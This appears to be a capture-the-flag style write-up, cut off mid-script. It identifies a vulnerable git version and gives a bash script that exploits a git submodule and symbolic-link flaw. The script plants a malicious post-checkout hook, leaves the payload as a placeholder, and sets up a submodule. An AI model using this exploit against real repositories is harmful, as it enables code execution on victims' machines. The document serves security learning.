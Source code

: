 There is a recent vulnerability, it could matching with what we are looking for
<br/><br/>
![image.png]({{ '/assets/images/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9_image_3.png' | relative_url }})
<br/><br/>
A blog explaining the CVE is in there but first at all let’s see whether it will be helpful
<br/><br/>
![image.png]({{ '/assets/images/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9_image_4.png' | relative_url }})
<br/><br/>
Looking around changelog version we realize it is running with a vulnerable version of git
<br/><br/>
![image.png]({{ '/assets/images/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9_image_5.png' | relative_url }})
<br/><br/>
![image.png]({{ '/assets/images/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9/ed7f9d5f-d40e-4d0a-b9ae-5e083ab000d8-export-c53014af-0842-47be-bf08-def30d8508e9_image_6.png' | relative_url }})
<br/><br/>
Now we can focus a little bit more on the vulnerability, basically it is executing hooks without proper control in files called recursively, the issue is due to bad symbolic links handle by git.
<br/><br/>
```bash
#!/bin/bash

#Configure Git to allow file protocol and enable symbolic links

#We need to allow file:// protocol to manage local repos
git config --global protocol.file.allow always
#Allow symbolic links
git config --global core.symlinks true
#Main will be the main branch (good practice to avoid master)
git config --global init.defaultBranch main

#Clean up any existing repositories
rm -rf repo1
rm -rf repo2

#Clone the malicious repo
git clone <repo1.git>
cd repo1

#Create the malicious post-checkout hook
mkdir -p y/hooks
##!bin/sh.exe could be executed when we have Git bash 
#Or another unix terminal on windows
cat > y/hooks/post-checkout <<EOF
<payload>
EOF
chmod +x y/hooks/post-checkout

#Add, commit and push the malicious hooks
git add y/hooks/post-checkout
git commit -m "Add malicious post-checkout hook"
git push
cd ..

#Clone another repo and set up the submodule
git clone <repo2.git>
cd repo2
#Creating a submodule named x/y in A/modules/x
#The submodule helps to keep the connection with other repositories
git submodule add --name x/y "<repo1.git>" A/modules/x
git commit -m "Add submodule"

#Create a symbolic link to the .git directory
```